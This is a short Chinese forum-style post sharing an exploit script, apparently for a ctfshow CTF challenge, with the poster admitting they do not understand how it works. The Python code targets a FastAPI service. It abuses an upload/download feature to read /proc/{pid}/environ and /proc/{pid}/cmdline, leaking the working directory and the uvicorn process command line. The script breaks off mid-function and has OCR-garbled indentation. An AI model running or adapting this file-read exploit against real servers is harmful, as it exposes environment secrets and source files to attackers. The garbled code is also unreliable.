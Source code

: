 丢个exp
不是很能理解原理

```python
#-*- coding : utf-8 -*-

# coding: utf-8

import time

import requests

import io,json

url = "http://xxxx/"

app = ''

# Author:ctfshow-h1xa

def get_api():

    response = requests.get(url=url+"openapi.json")

if "FastAPI" in response.text:

        apijson = json.loads(response.text)

return apijson

def get_pwd():

    pwd = ''

for pid in range(20):

        data = f'/proc/{pid}/environ'

file = upload(data)

        content = download(file['fileName'])

if content['fileName'] and 'PWD' in content['fileContent']:

            pwd = content['fileContent'][content['fileContent'].find("PWD=")+4:content['fileContent'].find("GPG_KEY=")]+'/'

break

return pwd

def get_python_file():

    python_file = ''

for pid in range(20):

        data = f'/proc/{pid}/cmdline'

file = upload(data)

        content = download(file['fileName'])

if content['fileName'] and 'uvicorn' in content['fileContent']:
```